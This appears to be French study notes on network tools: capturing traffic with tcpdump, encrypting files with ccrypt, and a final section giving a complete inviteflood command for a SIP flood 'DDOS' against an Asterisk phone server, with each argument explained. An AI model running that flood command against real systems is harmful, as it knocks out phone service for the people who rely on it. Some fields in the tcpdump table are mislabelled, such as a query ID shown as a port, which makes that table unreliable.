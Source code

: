 ## Capturer des événement sur le réseau avec TCPdump
TCPdump est un outil d’écoute du réseau, il permet de capturer les événement sur le réseau, on peut
aussi enregistrer la capture dans un fichier compatible avec Wireshark.

Si on tape la commande tcpdump sans aucune option, cela va écouter sur l’ensemble du réseau tout
le trafic.

Exemple d’une ligne de résultat:
```Bash
14:19:02.843122 IP L875-10E.36343 > dns.google.domain: 25395+ PTR? 22.1.168.192.in-addr.arpa. (43)
```
* Chaque ligne représente la transmission d’un paquet.

||Description|
|---|---|
|14:19:02.843122|Heure d'arrivée du paquet sur l'interface réseau|
|IP|Type de protocole TCP, UDP, IGMP, ARP, ...|
|L875-10E|adresse source.|
|.36343|port source.|
|dns.google.domain|adresse de destination.|
|25395+|Port de déstination.|
|PTR?|Type de requête, ping,DNS,HTTP,FTP?PTR...|

Écouter le réseau avec TCPdump
```Bash
tcpdump -i enp1s0 -t icmp
```

## Chiffrer et déchiffrer des fichiers
```Bash
apt-get install ccrypt
```

Chiffrer le fichier file.txt
```Bash
ccrypt file.txt
```

Déchiffrer le fichier file.txt
```Bash
ccrypt -d file.txt
```

## Attaque DDOS sur un serveur Asterisk
```Bash
inviteflood enp1s0 6001 192.168.1.21 192.168.1.39 100
```

||Description|
|---|---|
|enp1s0|Interface réseau|
|6001|Utilisateur SIP cible|
|192.168.1.21|Serveur PBX|
|192.168.1.39|Adresse IP du téléphone cible|
|100|Envoi de 100 paquets|
